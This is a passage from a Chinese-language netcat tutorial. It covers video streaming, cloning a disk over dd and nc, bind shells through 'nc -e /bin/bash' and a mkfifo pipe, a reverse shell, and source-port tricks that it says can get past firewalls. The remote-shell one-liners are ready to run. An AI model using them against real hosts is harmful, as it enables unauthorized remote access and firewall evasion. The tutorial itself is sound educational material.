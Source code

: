     这里我们从socket中读入数据并重定向到mplayer。
    Client: $nc 192.168.1.1 20000 | mplayer -vo x11 -cache 3000 -

#### 克隆一个设备
    如果你已经安装配置一台Linux机器并且需要重复同样的操作对其他的机器，而你不想在重复配置一遍。
    不在需要重复配置安装的过程，只启动另一台机器的一些引导可以随身碟和克隆你的机器。
    克隆Linux PC很简单，假如你的系统在磁盘/dev/sda上
    Server: $dd if=/dev/sda | nc -l 20000
    
    Client: $nc -n 192.168.1.1 20000 | dd of=/dev/sda
    
    dd是一个从磁盘读取原始数据的工具，我通过netcat服务器重定向它的输出流到其他机器并且写入到磁盘中，它会随着分区表拷贝所有的信息。
    但是如果我们已经做过分区并且只需要克隆root分区，我们可以根据我们系统root分区的位置，更改sda 为sda1，sda2.等等。

#### 打开一个shell
    假设你的netcat支持 -c -e 参数(原生 netcat)
    Server: $nc -l 20000 -e /bin/bash -i
    Client: $nc 192.168.1.1 20000
    
    这里我们已经创建了一个netcat服务器并且表示当它连接成功时执行/bin/bash
    假如netcat 不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell
    
    Server: 
    $mkfifo /tmp/tmp_fifo
    $cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 20000 > /tmp/tmp_fifo
    这里我们创建了一个fifo文件，然后使用管道命令把这个fifo文件内容定向到shell 2>&1中。
    2>&1是用来重定向标准错误输出和标准输出，然后管道到netcat 运行的端口20000上。至此，我们已经把netcat的输出重定向到fifo文件中。
    说明：
    从网络收到的输入写到fifo文件中
    cat 命令读取fifo文件并且其内容发送给sh命令
    sh命令进程受到输入并把它写回到netcat。
    netcat 通过网络发送输出到client
    至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。
    在客户端仅仅简单连接到服务器
    
    Client: $nc -n 192.168.1.1 20000
    你会得到一个shell提示符在客户端

#### 反向shell
    反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。
    Server: $nc -l 20000
    
    在客户端，简单地告诉netcat在连接完成后，执行shell。
    Client: $nc 192.168.1.1 20000 -e /bin/bash
    
    现在，什么是反向shell的特别之处呢
    反向shell经常被用来绕过防火墙的限制，如阻止入站连接。
    例如，我有一个专用IP地址为192.168.1.1，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。

####　指定源端口
    假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。
    Server：$nc -l 20000
    Client：$nc 192.168.1.1 20000 25
    
    使用1024以内的端口需要root权限。
    该命令将在客户端开启25端口用于通讯，否则将使用随机端口。
